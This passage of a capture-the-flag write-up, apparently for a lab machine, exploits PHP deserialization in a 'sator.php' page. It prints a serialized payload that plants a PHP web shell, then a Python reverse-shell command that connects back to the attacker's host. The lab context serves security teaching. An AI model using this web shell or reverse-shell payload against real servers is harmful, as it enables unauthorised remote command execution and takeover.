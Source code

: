 
## PHP Deserlization attack

We can see here that there's a class `DatabaseExport` in which there are two public variables `user_file` and `data` and in this class there's a public function called `update_db()` which will set the `data` variable to "sucess" which is just a text as you can see from the sator.php show on the web browser at the end there's a magic function `__destruct()` which will be automatcially called when an object is destroyed , there the `user_file` will be made with the contents from `data` and will put in the web directory which means users.txt will be created in the web directory having the data "success".

At the end we can the `GET` parameter `arepo` , now here exists a vulnerability which is known as** PHP Deserilization** 

So to exploit this we have to modify the class variables in this case `user_file` and `data` and seriliaze it , once we get the serliazed string we pass it to `arepo` paramter.

<img src="https://imgur.com/xzxCRzb.png"/>

After running it we will get a php serialized object

<img src="https://imgur.com/Ocvi0RZ.png"/>

But we need to pass this to GET paramter in a url encoded form so I used cyberchef to do that

<img src="https://imgur.com/I7LmXV9.png"/>

And then paste into the GET parameter

```bash
http://10.10.10.223/sator.php?arepo=O:14:%22DatabaseExport%22:2:%7Bs:9:%22user_file%22;s:9:%22shell.php%22;s:4:%22data%22;s:29:%22%3C?php%20system($_GET%5B%22cmd%22%5D);?%3E%22;%7D
```

<img src="https://imgur.com/ki71f7v.png"/>

We can see the message "Database updated" so let's see if `shell.php` was made on the web directory or not.

<img src="https://imgur.com/sPf3gtb.png"/>

<img src="https://imgur.com/4Dhsv2O.png"/>

And we have a rce, cool !

<img src="https://imgur.com/RoxtkbY.png"/>

Python3 is installed so we can get a reverse shell through it

```bash
http://10.10.10.223/shell.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<img src="https://imgur.com/FcVsPg7.png"/>
